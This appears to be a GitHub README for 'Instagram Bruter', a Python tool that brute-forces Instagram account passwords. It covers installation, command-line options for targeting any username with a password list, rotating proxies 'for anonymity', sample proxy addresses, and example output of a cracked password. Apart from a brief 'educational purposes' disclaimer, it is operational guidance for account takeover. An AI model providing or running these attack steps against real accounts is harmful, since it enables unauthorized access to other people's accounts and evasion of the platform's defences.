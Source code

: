 
# Instagram Bruter

  

## Description

Instagram Bruter is a password brute-force tool designed to test the security of Instagram accounts. It automates login attempts using a list of passwords and proxies.

  

## Author


Original Authors:
- **Hackertrackersj**
- **OBITORASU**
- **TermuxHackz**

Modified/Updated Version By:
- [**Pralin Khaira**](https://github.com/pralinkhaira)

## Features

- Multi-threaded brute-force attack

- Proxy support for anonymity

- Session resume functionality

- Password list-based attack

- Proxy pruning and statistics tracking

  

## Requirements

- Python 3.9+

- Proxy list

  

## Install Dependencies

  

### Install Pipenv

  

```
pip install pipenv
```

  

### Create Environment

  

Make sure you have Python 3.9 installed

  

```
pipenv --python 3.9
```

  

### Install Requirements

  

```
pipenv install
```

  

## Usage

```sh
python  instagram.py  -u <username> -p <password_list.txt> -px <proxy_list.txt> -m <mode>
```

### Options:

-  `-u, --username` : Target Instagram username or email

-  `-p, --passlist` : Path to password list file

-  `-px, --proxylist` : Path to proxy list file

-  `-m, --mode` : Attack mode (0 to 3, where 0 = 32 bots, 3 = 4 bots)

-  `--prune` : Prune the proxy database (value between 0 and 1)

-  `--stats` : Show proxy statistics

-  `-nc, --no-color` : Disable color output

  

## Example

```sh
python  instagram.py  -u  target_user  -p  passwords.txt  -px  proxies.txt  -m  2
```

  

## Proxies

  

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

  

### Upload Proxies

  

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`

  

Example `proxies_list.txt`:

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

  

To upload a list of proxies, use:

```
python instagram.py -px <path to proxy list>
```

  

### Proxy Statistics

  

Gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

  

### Prune Proxies

  

Removes proxies with a score below a given threshold. It is recommended to prune the database of proxies with a score below `Q1`.

```
python instagram.py --prune 0.05
```

  

## Running the Tool

  

### Start Attack

```
python instagram.py -u <username> -p <passlist>
```

### Example Output (During Attack)

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Example Output (Successful Attempt)

```

[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123

```

  

## Disclaimer

This tool is for educational purposes only. Unauthorized use against accounts you do not own is illegal.
